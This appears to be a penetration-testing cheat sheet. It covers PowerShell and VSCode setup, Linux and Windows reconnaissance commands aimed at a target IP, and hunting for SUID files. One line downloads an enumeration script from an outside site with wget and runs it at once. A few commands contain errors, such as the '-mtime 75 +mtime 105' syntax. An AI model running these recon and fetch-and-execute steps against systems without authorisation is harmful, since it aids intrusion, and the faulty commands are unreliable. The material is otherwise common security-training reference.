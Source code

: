 ```
curl https://packages.microsoft.com/keys/microsoft.asc | apt-key add -
echo "deb [arch=amd64] https://packages.microsoft.com/repos/microsoft-debian-stretch-prod stretch main" > /etc/apt/sources.list.d/powershell.list
apt update
apt -y install powershell
```

### VSCode
```
curl https://packages.microsoft.com/keys/microsoft.asc | gpg --dearmor > microsoft.gpg
sudo install -o root -g root -m 644 microsoft.gpg /etc/apt/trusted.gpg.d/
sudo sh -c 'echo "deb [arch=amd64] https://packages.microsoft.com/repos/vscode stable main" > /etc/apt/sources.list.d/vscode.list'
sudo apt-get install apt-transport-https
sudo apt-get update
sudo apt-get install code # or code-insiders
```

## Linux commands:

Export the IP of the target to a bash variable: `export ip=192.168.1.100`\
Ping the target: `ping $IP`\
Find the location of a file: `locate `\
Use the $PATH environment variable to find a file: `which hydra`\
Use the $PATH and $MANPATH environment variable to find a file: `whereis more`\
Show only listening sockets with info: `netstat -tunlap`\
Start/stop a service such as ssh: `systemctl {start|stop} ssh`\
Have a service start at boot: `systemctl enable ssh`\
Unzip a tar'd gzip file: `tar -xzvf file.tar.gz` (bzip: -j, xz: -J, --lzip, --lzma, --lzop, Zip/Gzip: -z, Compress: -Z)\
Search bash command history: `history | grep {condition}`\
Use a bash loop to find the IP address behind each host:`for url in $(cat list.txt); do host $url; done`\
Base64 decode linux: `echo -n "ZGVjb2RlIHRoaXM=" | base64 -d`\
Decode Hexidecimal Encoded string: `echo -n "54 68 6973206973206120 68657820 656E636F 64656420 7374 7269 6E 67" | xxd -r -ps`\
Mount NFS Share: `Mount -t nfs 10.10.10.45:/vol/nfsshare /mnt/nfs`\
Example bash stuff: `cat access.log | cut -d " " -f 1 | sort | uniq -c | wc -l`

## Windows/CMD commands:
Export the IP of the target to a Windows variables: `set IP=192.168.1.100`\
Ping the target: `ping %IP%`\
System information: `systeminfo`\
Get Windows updates:`dism /online /get-packages`\
Wmic get updates: `wmic qfe list full /format:htable > hotfixes.htm`\
In PSH: `Get-WmiObject -Class "win32_quickfixengineering" | Select-Object -Property "Description", "HotfixID", @{Name="InstalledOn"; Expression={([DateTime]($_.InstalledOn)).ToLocalTime()}}`


### Finding files/data:
#### Linux
Find UID 0 files root execution: `find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null`\
Linux enum: `wget https://highon.coffee/downloads/linux-local-enum.sh; chmod +x ./linux-local-enum.sh; ./linux-local-enum.sh`\
Find executable files updated in Jan: `find / -executable -type f 2> /dev/null | egrep -v "^/bin|^/var|^/etc|^/usr" | xargs ls -lh | grep Jan`\
Find a specific file on linux: `find /. -name suid\*`\
Files modified in the last 90 days: `find -type f -mtime -90` \
Files modified 90 days ago: `find -type f -mtime 90` \
Files modified around 3 months ago: `find -type f -mtime 75 +mtime 105` \
String in a file: `strings $file`\